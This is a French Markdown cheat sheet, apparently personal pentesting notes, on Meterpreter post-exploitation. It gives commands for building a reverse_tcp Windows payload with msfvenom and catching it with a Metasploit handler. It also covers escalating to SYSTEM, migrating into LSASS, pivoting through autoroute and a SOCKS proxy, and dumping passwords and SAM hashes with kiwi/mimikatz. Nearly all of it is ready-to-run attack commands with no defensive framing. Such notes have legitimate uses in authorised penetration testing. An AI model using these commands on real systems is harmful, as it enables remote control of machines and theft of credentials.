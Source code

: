 # Meterpreter

> Tips pour utiliser la console meterpreter
>
> Outil de post exploitation lorsque l'on a une RCE.



### 1. Génération d'un payload

```bash
# -p : le payload à changer selon le contexte
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_HOTE> LPORT=<PORT_D_ECOUTE> -f exe -o meterpreter.exe

# Puis upload meterpreter.exe et l'exécuter
```



### 2. Setup d'un handler 

```bash
# ATTENTION : bien mettre le même payload que celui généré avec msfvenom
$ msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP_HOTE>
set LPORT <PORT_D_ECOUTE>
exploit
```



### 3. Utilisation de la console

> Tips et tricks pour utiliser la console meterpreter 

```bash
# voir l'écran de la machine
meterpreter> screenshare

# connaitre son utilisateur
meterpreter> getuid

# afficher les processus (sert à migrer dans un processus plus stable pour avoir un shell stable qui ne se coupe pas)
meterpreter> ps
meterpreter> migrate <PID>

# ouvrir une commande shell puis powershell
meterpreter> shell
shell> powershell

# exécuter un binaire
meterpreter> execute -f <BINAIRE.exe>

# passer NT\Autority System (il faut un compte admin local)
meterpreter> getsystem
meterpreter> migrate <PID_LSASS>
```



### 4. Exploits meterpreter utiles

> Liste d'exploits meterpreter utiles en TI

```bash
# Trouver le domaine et l'AD
meterpreter> use windows/gather/enum_domain

# Faire une route avec le réseau (sert à créer un proxy socks entre autre)
meterpreter> use multi/manage/autoroute
# Faire un proxy socks
meterpreter> use server/socks_proxy

# Dump lsass
meterpreter> use kiwi
meterpreter> kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"
```

